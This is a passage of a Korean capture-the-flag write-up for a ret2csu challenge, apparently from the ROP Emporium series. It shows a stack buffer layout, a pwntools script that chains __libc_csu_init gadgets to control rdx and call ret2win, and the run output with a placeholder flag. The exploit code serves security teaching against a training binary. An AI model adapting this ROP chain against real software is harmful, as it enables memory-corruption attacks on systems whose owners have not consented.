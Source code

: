 버퍼를 재구성하자:
<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret addr for pwnme : csu+90</td></tr>
    <tr><td>rbx : 0</td></tr>
    <tr><td>rbp : 1</td></tr>
    <tr><td>r12 : csu call addr : *_init </td></tr>
    <tr><td>r13 : ? (0)</td></tr>
    <tr><td>r14 : ? (0)</td></tr>
    <tr><td>r15 : 0xdeadcafebabebeef</td></tr>
    <tr><td>ret addr for csu : csu+64 </td></tr>
    <tr><td>dummy data for [add rsp, 0x8] : ? (0)</td></tr>
    <tr><td>rbx : ? (0)</td></tr>
    <tr><td>rbp : ? (0)</td></tr>
    <tr><td>r12 : ? (0)</td></tr>
    <tr><td>r13 : ? (0)</td></tr>
    <tr><td>r14 : ? (0)</td></tr>
    <tr><td>r15 : ? (0)</td></tr>
    <tr><td>ret addr for csu+64 : ret2win </td></tr>
</table>

exploit2.py
```python
from pwn import *

initp = 0x600e38
csu1 = 0x40089a
csu2 = 0x400880
ret2win = 0x4007b1
rdx = 0xdeadcafebabebeef

pl = 'a'*0x28
pl += p64(csu1) + p64(0) + p64(1) + p64(initp) + p64(0)*2 + p64(rdx) + p64(csu2)
pl += p64(0)*7 + p64(ret2win)

p = process('./ret2csu')
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/ret2csu$ python exp.py
[+] Starting local process './ret2csu': pid 7788
[*] Switching to interactive mode
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```
